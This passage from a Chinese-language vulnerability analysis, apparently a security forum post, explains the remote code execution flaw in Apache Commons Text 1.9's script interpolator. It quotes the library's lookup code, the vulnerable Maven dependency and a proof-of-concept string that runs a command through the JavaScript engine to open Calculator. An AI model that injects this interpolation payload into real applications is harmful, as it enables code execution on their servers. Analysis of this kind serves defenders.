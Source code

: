 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-6178793eed727a0474e8fe7c1dac67a973747e96.png)

 此时调用ScriptStringLookup 类的lookup方法进行解析,这里key（也就是前面的poc）会通过 : 拆分成两部分，前者引入 js 引擎，后者是作为被执行的代码，最终通过 ScriptEngine#eval 执行。也就达到了RCE的效果：

```Java
public String lookup(String key) {
    if (key == null) {
        return null;
    } else {
        String[] keys = key.split(SPLIT_STR, 2);
        int keyLen = keys.length;
        if (keyLen != 2) {
            throw IllegalArgumentExceptions.format("Bad script key format [%s]; expected format is EngineName:Script.", new Object[]{key});
        } else {
            String engineName = keys[0];
            String script = keys[1];

            try {
                ScriptEngine scriptEngine = (new ScriptEngineManager()).getEngineByName(engineName);
                if (scriptEngine == null) {
                    throw new IllegalArgumentException("No script engine named " + engineName);
                } else {
                    return Objects.toString(scriptEngine.eval(script), (String)null);
                }
            } catch (Exception var7) {
                throw IllegalArgumentExceptions.format(var7, "Error in script engine [%s] evaluating script [%s].", new Object[]{engineName, script});
            }
        }
    }
}
```

0x03 漏洞复现
=========

 以Script插值器为例：

 首先引入风险组件：

```XML
<dependency>
  <groupId>org.apache.commons</groupId>
  <artifactId>commons-text</artifactId>
  <version>1.9</version>
</dependency>
```

 相关demo:

```Java
public class Demo {
    public static void main(String[] args) {
        StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
        stringSubstitutor.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}");
    }
}
```
